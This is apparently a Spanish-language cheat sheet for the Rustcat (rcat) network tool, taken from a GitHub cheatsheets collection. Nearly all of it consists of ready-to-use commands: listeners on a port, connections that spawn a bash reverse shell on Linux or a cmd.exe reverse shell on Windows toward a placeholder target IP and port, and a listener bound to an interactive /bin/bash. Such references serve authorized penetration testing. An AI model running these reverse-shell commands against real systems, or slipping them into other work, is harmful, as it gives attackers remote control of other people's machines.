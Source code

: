 # Rustcat Cheat Sheet

#### Ponerse en escucha en un puerto, usando comando de historial, completado de comando y bloqueo de ctrl-c
```
rcat -lp <PORT>
rcat listen -ib <PORT>
```

#### Conectarse y crear una bash reverse shell (Linux)
```
rcat connect -s bash <IP-TARGET> <PORT-TARGET>
```

#### Conectarse y crear un reverse shell (Windows)
```
rcat connect -s cmd.exe <IP-TARGET> <PORT-TARGET>
```

#### Escucha el puerto 55660 en localhost con historial de comandos y finalización de comandos e inicia un bash con modo interactivo en la conexión recibida:
```
rcat listen -ie "/bin/bash -i" 55660
```

#### Escucha el puerto 55660 en 0.0.0.0 con modo interactivo local:
```
rcat listen -l 55660
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)